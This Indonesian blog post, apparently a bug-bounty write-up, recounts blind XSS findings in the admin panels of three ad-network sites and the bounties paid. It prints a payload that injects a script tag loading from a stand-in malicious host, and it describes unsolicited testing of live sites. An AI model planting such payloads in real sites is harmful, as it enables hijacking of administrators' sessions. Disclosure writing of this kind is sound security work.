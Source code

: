 ```yaml
---
layout: post
title: Mengintip Admin Panel situs Ad Networks
date: 2018-08-22 04:10:00 PM
permalink: project/2018-08-22-mengintip-admin-panel-situs-ad-networks/
author: xhellc0de
categories: pentesting
tags: vulnerability xss blind-xss bug-bounty
---
```

![Image of Ad Networks](https://noobsec.org/images/ad_network.png)

Karena kehidupan yang semakin sulit, banyaknya biaya hidup yang harus dipenuhi maka saya pun mencoba untuk mencari pendapatan tambahan dari Internet *(curhat)*. Salah satu yang saya lakukan adalah mencari uang dari situs periklanan atau biasa dikenal dengan Ad Networks. Ada banyak sekali situs Ad Networks di jagat internet ini, mulai dari yang paling terkenal milik Google yaitu Google Adsense, dan situs-situs Ad Networks lainnya.

Beberapa waktu lalu, saldo pada situ Ad Networks saya sudah mencapai batas yang dapat di-withdraw. Dan saya pun segera melakukan penarikan pada situs tersebut. Ketika mau melakukan withdraw, saya iseng mengganti nama pada profile dengan menambahkan payload XSS didalamnya. Berharap payload tersebut akan tereksekusi di panel admin dan saya bisa melihat-lihat dalemannya hehe.

Selang beberapa waktu, benar saja payload saya tereksekusi di admin panel Ad Networks tersebut. Saya berhasil melakukan **Blind XSS** pada situs tersebut.

![Image of Ad Networks Panel](https://noobsec.org/images/b1_panel.png)

**Blind XSS** merupakan salah satu jenis XSS yang cukup unik. Kita tidak bisa melihat kapan dan dimana payload akan tereksekusi, bahkan sering kali tidak tereksekusi. Maka dari itu disebut Blind, alias buta. Payload yang kita buat umumnya tereksekusi di aplikasi lain yang saling terhubung pada satu database.

Untuk kasus yang saya temukan ini, saya memasukan payload XSS pada Member Area Ad Networks, lalu saya melakukan **Wihtdrawal Request** yang dimana pastinya diperlukan pengecekan secara manual oleh Admin sebelum melakukan proses **Wihtdrawal** yang saya minta. Maka Admin membuka halaman yang berisi **Withdrawal Request** pada situsnya, dan pada halaman tersebut ada **Field Full Name** yang sebelumnya saya isi dengan Payload XSS pada Member Area saya.

Berikut ini contoh source code dari Field Full Name setelah saya isi payload XSS:

```html
<td style="color:black;cursor:pointer;" userid="x" class="userid userid_x">John Smith"&gt;<script src="https://malicious.script/"></script></td>
```

Karena saya merupakan orang yang jujur dan baik hati. Maka saya segera melapor pada Admin situs tersebut terkait bug yang saya temukan. Tidak lupa pula menanyakan apakah ada reward yang saya dapatkan haha..

![Image of Ad Networks Email](https://noobsec.org/images/b1_email.png)

Tidak lama admin dari situs tersebut membalas email dan memberikan saya reward terkahit bug yang saya temukan. Lumayan, Withdraw nya jadi dobel hehe..

**Dari bug ini saya diberi reward sebesar $250. (Alhamdulillah)**

Tidak berhenti sampai disitu, saya pun mencoba hal yang sama pada situs Ad Networks yang lain. Karena situs mereka adalah situs penghasil uang, sudah pasti mereka punya uang dan mungkin mau memberi reward seperti pada situ yang awal tadi.

![Image of Kamen](https://noobsec.org/images/kamen.gif)

Pada situs berikutnya, payload XSS saya masukan pula pada field Full Name dan tereksekusi di Halaman **Channel List** pada panel admin. Halaman itu berisi daftar dari publisher yang ada pada situs tersebut. Walaupun pada awalnya mereka menyangkal dan tidak percaya bahwa ada bug di situs mereka, akhirnya mereka pun percaya setelah saya gunakan **alert** untuk memunculkan popup pada admin panel mereka XD

![Image of Ad Networks Panel](https://noobsec.org/images/b2_panel.png)

**Dari bug ini saya diberi reward sebesar $50. (Alhamdulillah)**

Yang terakhir saya menemukan bug yang sama pada situs Ad Networks asal Rusia. Kali ini payload tereksekusi di halaman Affiliates pada **Field User Skype**. Karena pada member Panel nya terdapat field Skype dan hanya field itu yang bisa diisi dengan payload XSS, field lainnya diproteksi sehingga tidak bisa memasukan HTML Tag.

![Image of Ad Networks Panel](https://noobsec.org/images/b3_panel.png)

Tidak seperti situs sebelumnya, admin situs ini sangat ramah dan sangat cepat tanggap. Bahkan ini merupakan **Bounty Hunting** tercepat yang saya alami. Proses dari mengirim report sampai diberi reward memakan waktu kurang dari 2 jam!

![Image of Ad Networks Email](https://noobsec.org/images/b3_email1.png)

![Image of Ad Networks Email](https://noobsec.org/images/b3_email2.png)

```
15 Aug 2018 22:23 = Reported
15 Aug 2018 23:06 = Rewarded
```

**Dari bug ini saya diberi reward sebesar $100. (Alhamdulillah)**

Begitulah cerita singkat saya *mengintip* admin panel ada situ Ad Networks. Semoga bisa memberi inspirasi bagi kalian semua para tukang ngintip wkwk. Mengintiplah untuk sesuatu yang baik, karena segala sesuatu yang baik akan membawa hasil yang baik pula.

Referensi:

https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/
